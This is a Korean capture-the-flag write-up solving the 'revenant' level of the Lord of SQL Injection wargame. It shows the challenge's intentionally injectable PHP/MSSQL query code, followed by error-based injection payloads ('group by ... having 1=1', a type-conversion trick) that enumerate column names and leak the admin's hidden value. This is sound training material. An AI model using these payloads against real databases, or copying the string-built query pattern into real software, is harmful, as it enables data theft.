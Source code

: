 ```yaml
---
title: "[Lord of SQL Injection] LoS - revenant 문제풀이"
date: 2019-07-27
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


또 간만에 정리하는 Write-up이다.
이번에도 `MSSQL` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select * from prob_revenant where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select * from prob_revenant where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select * from prob_revenant where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['4'] === $_GET['pw']) solve("revenant"); // you have to pwn 5th column
  highlight_file(__FILE__);
?>
```

언뜻 보면 이 전 문제와 동일하게 생겼다.
그런데 이 번 문제의 핵심은 바로 `5 번째 열(column)`을 뽑아야 한다는 것이다.
그렇다면 먼저 5번째 컬럼 명을 알아낸 후, 이 전 문제와 같은 방법으로 오류를 유도하면 `5 번째 열`의 값을 알아낼 수 있을 것 같다.
테이블 내의 컬럼 명을 알기 위해서는 `group by`와 `having`을 사용했다.
이 전 문제에서 아래와 같이 입력하면 `테이블 명.컬럼 명`이 나타나는 오류를 확인할 수 있었다.  

```plain
?id=a' having 1=1 --
```

---

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.id' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

위의 오류 중 `prob_revenant.id`에서 `prob_revenant`는 문제의 `테이블 명`이고 `id`는 `컬럼 명`이다.
이를 활용하여 두 번째 컬럼 명을 구해야 하는데 이 때는 `group by`를 사용하면 된다.  

```plain
?id=a' group by id having 1=1 -- 
```

위의 값을 입력하면 완성되는 쿼리는 다음과 같다.  

```mysql
select * from prob_revenant where id='a' group by id having 1=1 --' and pw=''
```

따라서 `id='a' group by id having 1=1` 까지가 `where`절에 사용되고 뒤의 부분은 주석처리 된다.
그 결과 `having` 절에서 오류가 나며 `id` 다음 열을 알아낼 수 있다.  

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.pw' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

오류 안에서 두 번째 컬럼 명이 `pw`라는 것을 알 수 있었다.
다음 세 번째 컬럼 명을 알기 위해서는 `group by` 뒤에 두 번째 컬럼 명을 추가 해 주면 된다.  

```plain
?id=a' group by id,pw having 1=1 -- 
```

---

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.45a88487' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

세 번째 컬럼 명은 `45a88487`라는 것을 알 수 있다.
같은 방법으로 네 번째, 다섯 번째 컬럼 명을 알아낼 수 있다.
그런데 세 번째 컬럼 명은 시작 부분이 숫자라서 그냥 입력하면 오류가 난다.
그래서 `"`로 묶어주었다.  

```plain
?id=a' group by id,pw,"45a88487" having 1=1 -- 
```

---

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.13477a35' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

---

```plain
?id=a' group by id,pw,"45a88487","13477a35" having 1=1 -- 
```

---

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.9604b0c8' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

이렇게 다섯 번째 컬럼 명이 `9604b0c8`라는 것을 알 수 있었다.
이제 다섯 번째 컬렴 명에서 이 전 문제와 같이 오류를 발생시켜 값을 추출하면 문제를 풀 수 있을 것이다.
이를 위해 아래와 같이 공격 구문을 구성했다.  

```plain
?id=admin' and "9604b0c8"=1 -- 
```

그 결과 아래와 같은 오류를 얻을 수 있었다.  

```plain
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Conversion failed when converting the varchar value 'aa68a4b3fb327dee07f868450f7e1183' to data type int.
```

즉, `id='admin'`일 때 `다섯 번째 컬럼`의 값은 `aa68a4b3fb327dee07f868450f7e1183`라는 것을 알 수 있었다.  

이제 이를 `pw`의 값으로 입력 해 주면 문제를 풀 수 있다.  

```plain
?id=admin&pw=aa68a4b3fb327dee07f868450f7e1183
```

---

```php
---------------------------------------------------------------------------------------------------------------------------
query : select * from prob_revenant where id='admin' and pw='aa68a4b3fb327dee07f868450f7e1183'
---------------------------------------------------------------------------------------------------------------------------

REVENANT Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select * from prob_revenant where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select * from prob_revenant where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['4'] === $_GET['pw']) solve("revenant"); // you have to pwn 5th column
  highlight_file(__FILE__);
?>
```

---

```plain
REVENANT Clear!!
```